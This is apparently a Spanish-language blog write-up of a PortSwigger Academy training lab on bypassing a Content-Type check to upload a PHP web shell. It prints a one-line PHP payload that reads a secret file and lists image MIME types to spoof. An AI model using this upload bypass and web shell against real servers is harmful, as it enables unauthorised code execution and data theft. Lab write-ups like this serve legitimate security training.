


+++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 3"
date = "2021-12-26"
description = "Lab: Web shell upload via Content-Type restriction bypass"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Web shell upload via Content-Type restriction bypass

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.



Pero ahora muestra un error al querer subir un archivo `.php` por lo que nos salta el siguiente error:


## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora vemos la peticion que es realizada al momento de subir el archivo y ver si modificando el `Content-Type` es aceptado sin problemas por el servidor. Los tipos de `Content-Type` para una imagen pueden ser

```
image/gif
image/png
image/jpeg
image/bmp
image/webp
```


Y ya que vemos que se ha subido sin problemas y ya lo subimos accedemos al archivo y podemos ver los datos del archivo:

> El archivo se guarda en la ruta /files/avatars/shell.php



Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)